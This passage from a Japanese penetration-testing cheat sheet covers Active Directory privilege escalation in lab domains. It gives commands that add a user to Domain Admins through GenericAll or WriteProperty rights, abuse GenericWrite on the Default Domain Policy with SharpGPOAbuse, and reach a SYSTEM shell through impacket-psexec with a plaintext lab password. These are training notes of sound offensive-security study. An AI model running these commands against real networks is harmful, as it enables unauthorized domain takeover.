 同様のコマンドをActiveDirectoryモジュールやPowerSploitを使用して実行できる
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### GenericWriteでGPOに自信を追加して権限昇格

```
例として、自身(Anirudh)がDefault Domain Policyに対してGenericWriteが付与されている場合
SharpGPOAbuse.exe(pyGPOAbuse.py)を使ってGPOに自信を追加する

*Evil-WinRM* PS C:\Users\anirudh\Documents> cmd.exe /c .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"

[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] Distinguished Name = CN=Policies,CN=System,DC=vault,DC=offsec
[+] SID Value of anirudh = S-1-5-21-537427935-490066102-1511301751-1103
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\vault.offsec\SysVol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
*Evil-WinRM* PS C:\Users\anirudh\Documents> gpupdate /force

再度psexec経由でログインするとadminになっている
(SharpGPOAbuseが成功していれば、psexecが使用できるようになっている)
└─$ impacket-psexec vault.offsec/anirudh:SecureHM@192.168.192.172
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.192.172.....
[*] Found writable share ADMIN$
[*] Uploading file VkgAqKoW.exe
[*] Opening SVCManager on 192.168.192.172.....
[*] Creating service TPGD on 192.168.192.172.....
[*] Starting service TPGD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 


```

### WritePropertyが付与されている場合

```
以下のコマンドを実行して、ActiveDrectoryRightsがWritePropertyであることを確認する
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

#### WritePropertyで自分自身でグループに追加する

```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
```